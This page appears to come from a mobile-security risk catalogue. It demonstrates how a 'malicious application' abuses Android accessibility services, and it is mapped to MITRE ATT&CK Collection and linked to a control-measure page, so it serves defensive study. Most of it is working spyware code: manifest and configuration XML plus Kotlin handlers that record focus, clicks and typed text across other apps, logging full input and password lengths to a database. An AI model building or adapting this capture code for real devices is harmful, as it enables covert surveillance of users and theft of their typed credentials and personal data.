




## android-platform-feature-05-risk-02

### Title

Capturing user activities within the app

### Description

Capture user activities within the application using accessibility services to gather data of interest (MITRE ATT&CK: ***Collection*** - TA0035).

### Demonstration

#### 01. Prepare the environment

Set up the required environment with:

* A physical Samsung A34 running Android 16 (api level 36)
* A physical Huawei P50 Pro running HarmonyOS 4.2.0 (Android API level 31)

#### 02. Create a malicious application

Create a malicious application by declaring an accessibility service in the manifest with `android.permission.BIND_ACCESSIBILITY_SERVICE` to register the application as an accessibility service.

```xml
<service
    android:name=".EventListenerAccessibilityService"
    android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE"
    android:exported="true">
    <intent-filter>
        <action android:name="android.accessibilityservice.AccessibilityService" />
    </intent-filter>
    <meta-data
        android:name="android.accessibilityservice"
        android:resource="@xml/accessibility_service_config_event" />
</service>
```

*Code block shows Manifest.xml with `android.permission.BIND_ACCESSIBILITY_SERVICE`*

#### 03. Define how the accessibility service operates

Define how the accessibility service operates by:

(a) creating an XML configuration file in `@xml/accessibility_service_config_event` to specify the accessibility event types to capture (e.g., `TYPE_VIEW_TEXT_CHANGED`, `TYPE_VIEW_FOCUSED`, `TYPE_VIEW_CLICKED`), and 

(b) implementing a service class (e.g., `.EventListenerAccessibilityService`) that handles the captured accessibility events and persists the collected data to local storage after the user grants accessibility permission.

```xml
<?xml version="1.0" encoding="utf-8"?>
<accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
    android:accessibilityEventTypes="typeViewFocused|typeViewTextChanged|typeViewClicked"
    android:accessibilityFlags="flagRetrieveInteractiveWindows|flagReportViewIds"
    android:canRetrieveWindowContent="true"
    android:description="@string/service_description" />
```

*Code block shows the accessibility service configuration file (`res/xml/<file name>.xml`)*.

```kotlin
override fun onAccessibilityEvent(event: AccessibilityEvent?) {
    if (event == null) return

    try {
        val packageName = event.packageName?.toString() ?: "unknown"
        val eventType = when (event.eventType) {
            AccessibilityEvent.TYPE_VIEW_FOCUSED -> "TYPE_VIEW_FOCUSED"
            AccessibilityEvent.TYPE_VIEW_TEXT_CHANGED -> "TYPE_VIEW_TEXT_CHANGED"
            AccessibilityEvent.TYPE_VIEW_CLICKED -> "TYPE_VIEW_CLICKED"
            else -> "TYPE_${event.eventType}"
        }

        when (event.eventType) {
            AccessibilityEvent.TYPE_VIEW_FOCUSED -> {
                Log.w(TAG, "Event received: Type=$eventType, Package=$packageName")
                handleFocusEvent(event, packageName)
            }
            AccessibilityEvent.TYPE_VIEW_TEXT_CHANGED -> {
                Log.w(TAG, "Event received: Type=$eventType, Package=$packageName")
                handleTextChangeEvent(event, packageName)
            }
            AccessibilityEvent.TYPE_VIEW_CLICKED -> {
                Log.w(TAG, "Event received: Type=$eventType, Package=$packageName")
                handleClickEvent(event, packageName)
            }
        }
    } catch (e: Exception) {
        Log.e(TAG, "Error in onAccessibilityEvent", e)
    }
}
```

*Code block shows malicious code logic for logging events*

```kotlin
private fun handleFocusEvent(event: AccessibilityEvent, packageName: String) {
    try {
        val viewId = event.source?.viewIdResourceName
        val hint = event.source?.hintText?.toString()
        val contentDesc = event.source?.contentDescription?.toString()

        Log.i(TAG, "├─ FOCUS detected")
        Log.i(TAG, "│  ├─ ViewID: $viewId")
        Log.i(TAG, "│  ├─ Hint: '$hint'")
        Log.i(TAG, "│  └─ ContentDesc: '$contentDesc'")

        saveEvent(
            eventType = "FOCUS",
            packageName = packageName,
            activityName = event.className?.toString(),
            viewId = viewId,
            text = null,
            beforeText = null,
            contentDescription = contentDesc,
            hint = hint,
            details = "Field focused: $hint"
        )
    } catch (e: Exception) {
        Log.e(TAG, "Error handling FOCUS", e)
    }
}
```

*Code block shows malicious code logic for detecting change of screen focus*

```kotlin
private fun handleTextChangeEvent(event: AccessibilityEvent, packageName: String) {
    try {
        val currentText = event.text?.joinToString("") ?: ""
        val beforeText = event.beforeText?.toString() ?: ""
        val viewId = event.source?.viewIdResourceName
        val isPassword = event.source?.isPassword == true

        val change = if (currentText.length > beforeText.length) {
            currentText.substring(beforeText.length)
        } else {
            "[DEL]"
        }

        Log.i(TAG, "├─ TEXT_CHANGE detected")
        Log.i(TAG, "│  ├─ ViewID: $viewId")
        Log.i(TAG, "│  ├─ IsPassword: $isPassword")
        if (isPassword) {
            Log.i(TAG, "│  ├─ ⚠️ PASSWORD INPUT | Length: ${currentText.length}")
        } else {
            Log.i(TAG, "│  ├─ Input: '$change' → Full: '$currentText'")
        }
        Log.i(TAG, "│  └─ Saved to database")

        saveEvent(
            eventType = "TEXT_CHANGE",
            packageName = packageName,
            activityName = event.className?.toString(),
            viewId = viewId,
            text = currentText,
            beforeText = beforeText,
            contentDescription = event.source?.contentDescription?.toString(),
            hint = event.source?.hintText?.toString(),
            details = if (isPassword) "PASSWORD: length=${currentText.length}" else "Input: $currentText"
        )
    } catch (e: Exception) {
        Log.e(TAG, "Error handling TEXT_CHANGE", e)
    }
}
```

*Code block shows malicious code logic for detecting change of text within text fields*

```kotlin
private fun handleClickEvent(event: AccessibilityEvent, packageName: String) {
    try {
        val viewId = event.source?.viewIdResourceName
        val text = event.source?.text?.toString()
        val contentDesc = event.source?.contentDescription?.toString()
        val className = event.source?.className?.toString()

        Log.i(TAG, "├─ BUTTON CLICKED detected")
        Log.i(TAG, "│  ├─ ViewID: $viewId")
        Log.i(TAG, "│  ├─ Text: '$text'")
        Log.i(TAG, "│  ├─ ContentDesc: '$contentDesc'")
        Log.i(TAG, "│  └─ Class: $className")

        saveEvent(
            eventType = "CLICK",
            packageName = packageName,
            activityName = event.className?.toString(),
            viewId = viewId,
            text = text,
            beforeText = null,
            contentDescription = contentDesc,
            hint = null,
            details = "Clicked: ${text ?: contentDesc ?: className}"
        )
    } catch (e: Exception) {
        Log.e(TAG, "Error handling CLICK", e)
    }
}
```

*Code block shows malicious code logic for detecting input and button presses*

#### 04. Install the malicious application

Install the malicious application on the device, perform the steps listed in [android-platform-feature-05](android-platform-feature-05.md), and then launch and use the benign application to trigger accessibility event capture.



*Screenshot shows the system prompt requesting permission to control the device.*



*Screenshot shows captured accessibility events in the Event Spy interface.*

#### 05. View the apps listed

Navigate to `Settings → Accessibility` to view the apps listed under the `Downloaded apps` section that provide accessibility services.



*Screenshot shows downloaded applications listed in Accessibility settings.*

#### 06. Activate its accessibility service

Select an app and toggle `Use <app name>` to activate its accessibility service.



*Screenshot shows the toggle for enabling an application's accessibility service.*


Android-Platform-Feature-05-Risk-02 control measures:

- [android-platform-feature-05-risk-02-control-01](android-platform-feature-05-risk-02-control-01.md)
